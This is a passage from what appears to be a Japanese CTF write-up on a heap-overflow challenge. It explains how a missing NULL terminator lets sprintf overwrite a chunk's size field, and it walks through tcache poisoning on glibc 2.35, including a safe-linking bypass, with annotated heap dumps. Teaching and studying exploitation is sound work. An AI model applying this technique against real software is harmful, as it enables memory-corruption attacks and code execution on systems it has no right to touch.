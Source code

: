 ```c
}
```
   
ここで`sprintf(pasted.ptr, "%s%s", list[idx].ptr, copied.ptr)`に着目する。
書式指定子`%s`は対応するポインタを文字列と解釈してNULLが現れるまで読み出す。
しかしながら、`create()`内ではメモの内容を標準入力から受け取った後、末尾にNULLを付加していない。

例えば、サイズ24のメモを1つだけ作成して内容をすべて'A'でパディングするとheap内部は以下のようになる。

```
0x561ef707e290  0x0000000000000000      0x0000000000000021      ........!.......
0x561ef707e2a0  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x561ef707e2b0  0x4141414141414141      0x0000000000020d51      AAAAAAAAQ.......         <-- Top chunk
```

このメモに対して`paste()`により他のメモの貼り付けを行うことを考える。
貼り付け先のメモのサイズは24であるが、`sprintf(pasted.ptr, "%s%s", list[idx].ptr, copied.ptr)`では\x41\x41...\x41\x51\x0d\x02までの27バイト分が読み出される。
`copied`に設定するメモのサイズを16の倍数に設定した場合、`copied`の内容の末尾3バイトがoverflowする。

以上の操作によりチャンクの管理情報である`size`を書き換えることができる。
チャンクの`size`を書き換えることができれば、以下の手順で任意のアドレスをtcacheに繋げることができる。

1. Heap overflowを用いて割り当て済みのチャンク(victim chunk)の`size`を大きく書き換える。
```
before
                                        0x0000000000000031      AAAAAAAA1.......
0x55b8bc6902e0  0x000000055b8bc690      0xb36247d8d5a8cb51      ...[....Q....Gb.         <-- tcachebins[0x30][0/1]
0x55b8bc6902f0  0x0000000000000000      0x0000000000000000      ................
0x55b8bc690300  0x0000000000000000      0x0000000000000021      ........!.......
0x55b8bc690310  0x000a6d6974636976      0x0000000000000000      victim..........         <-- victim chunk
0x55b8bc690320  0x0000000000000000      0x0000000000000021      ........!.......
0x55b8bc690330  0x7070616c7265766f      0x00000000000a6465      overlapped......         <-- overlapped chunk
0x55b8bc690340  0x0000000000000000

after
                                        0x0000000000000031      AAAAAAAA1.......
0x55b8bc6902e0  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x55b8bc6902f0  0x4141414141414141      0x4141414141414131      AAAAAAAA1AAAAAAA
0x55b8bc690300  0x4141414141414141      0x0000000000000041      AAAAAAAAA.......
0x55b8bc690310  0x000a6d6974636976      0x0000000000000000      victim..........         <-- victim chunk
0x55b8bc690320  0x0000000000000000      0x0000000000000021      ........!.......
0x55b8bc690330  0x7070616c7265766f      0x00000000000a6465      overlapped......         <-- overlapped chunk
0x55b8bc690340  0x0000000000000000
```

2. victim chunkとvictim chunkの次のチャンク(overlapped chunk)を解放する。
```
                                        0x0000000000000031      AAAAAAAA1.......
0x55b8bc6902e0  0x4141414141414141      0x4141414141414141      AAAAAAAAAAAAAAAA
0x55b8bc6902f0  0x4141414141414141      0x4141414141414131      AAAAAAAA1AAAAAAA
0x55b8bc690300  0x4141414141414141      0x0000000000000041      AAAAAAAAA.......
0x55b8bc690310  0x000000055b8bc690      0xb36247d8d5a8cb51      ...[....Q....Gb.         <-- victim chunk in tcachebins[0x40][0/1]
0x55b8bc690320  0x0000000000000000      0x0000000000000021      ........!.......
0x55b8bc690330  0x000055bde7e2c450      0xb36247d8d5a8cb51      P....U..Q....Gb.         <-- overlapped chunk in tcachebins[0x20][0/2]
0x55b8bc690340  0x0000000000000000
```
3. `create()`によりvictim chunkをtcacheから取り出す。メモの内容を書き込む際に、overlapped chunkの`fd`を改ざんして任意のアドレスをtcacheに繋げる。glibc2.35なのでsafe linkingが実装されている。突破するためには、dangling pointerを悪用してheapのアドレスを知っておく必要がある。
